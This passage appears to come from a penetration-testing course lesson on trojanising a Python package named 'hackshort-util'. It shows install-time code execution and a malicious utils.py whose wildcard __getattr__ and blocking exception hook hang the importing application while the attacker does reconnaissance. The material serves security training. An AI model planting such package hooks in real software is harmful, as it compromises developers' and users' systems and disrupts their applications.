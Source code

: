 > Listing 15 - Removing the Existing Package and Building the New Package

Now that we've rebuilt the package, let's attempt to install it and check if the installation created our file.

```
kali@kali:~/hackshort-util$ pip install ./dist/hackshort-util-1.1.4.tar.gz
...

kali@kali:~/hackshort-util$ cat /tmp/running_during_install           
This code was executed when the package was installed   
```

> Listing 16 - Installing the New Package and Checking if Custom Code Executed

At this point, we have obtained command execution during install. As mentioned earlier, we'll leave obtaining a reverse shell as an independent exercise. For now, let's move on to achieving code execution during runtime.

## 5.4.4. Command Execution During Runtime

Now that we have code execution during the installation process, let's move on to obtaining code execution during runtime. To do this, we need to know how the developers use the package. Referencing the forum post we found earlier, we can find that the application imports the _utils_ submodule from _hackshort_util_.

```
from hackshort_util import utils
```

> Listing 17 - Code Snippet Showing the Importing of utils Submodule from hackshort_util Module

This means that we'll have to create a **utils.py** file in the **hackshort_util** directory or Python will throw an error. However, we don't know what kind of functions exist in this submodule, so when the application goes to call the functions, it will throw another error.

To remedy this, we'll create a wildcard function that will be executed regardless of the name.

Nevertheless, there's a chance that our standard function won't return the appropriate value, resulting in another exception. To remedy this, we'll create an [_exception hook_](https://docs.python.org/3/library/sys.html#sys.excepthook) to catch any exception the application throws and block execution. While this might crash the application for users, it will give us time to conduct some additional reconnaissance of the environment.

```
kali@kali:~/hackshort-util$ nano hackshort_util/utils.py
                                                                                                        
kali@kali:~/hackshort-util$ cat -n hackshort_util/utils.py
01  import time
02  import sys
03
04  def standardFunction():
05          pass
06
07  def __getattr__(name):
08          pass
09          return standardFunction
10
11  def catch_exception(exc_type, exc_value, tb):
12      while True:
13          time.sleep(1000)
14
15  sys.excepthook = catch_exception

```
